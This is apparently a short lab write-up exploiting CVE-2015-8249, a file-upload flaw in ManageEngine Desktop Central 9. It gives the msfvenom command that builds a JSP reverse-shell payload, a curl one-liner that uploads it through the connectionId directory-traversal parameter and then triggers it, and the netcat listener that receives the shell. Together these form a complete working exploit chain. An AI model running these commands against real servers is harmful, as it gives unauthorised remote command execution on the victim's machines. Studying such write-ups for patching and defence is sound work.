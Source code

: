 # Manage Engine Desktop Central 9
## Build No: 91084

Vulnerability ID: CVE-2015-8249
POC Code by Sinn3r at 
https://blog.rapid7.com/2015/12/14/r7-2015-22-manageengine-desktop-central-9-fileuploadservlet-connectionid-vulnerability-cve-2015-8249/

This vulnerability allows for uploading of files via PUT, through an insecure request parameter connectionId. 
The details are excellently presented in the linked post.

First a jsp reverse shell payload was created with:

```
msfvenom -p java/jsp_shell_reverse_tcp -f raw > a.txt
```
The file 'a.txt' was edited with local IP and port to use.

Next the one liner POST message was constructed as follows with proper directory traversal string:

```
curl -v -X POST "http://192.168.56.101:8022/fileupload?connectionId=AAAAAAA%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5cjspf%5ctest.jsp%00&resourceId=B&action=rds_file_upload&computerName=deefunkt%2ephp&customerId=47474747" --data @a.txt --header "Content-Type:application/octet-stream" && curl http://192.168.56.101:8022/jspf/test.jsp
```

And a simple nc listener started with:

```
nc -lvv -p 4444
```
When the test.jsp page is fetched via curl, a shell opens on the netcat listener, unfortunately since the POC by sinn3r the current version now runs with local service privileges and so further privilege escalation needs to be conducted.

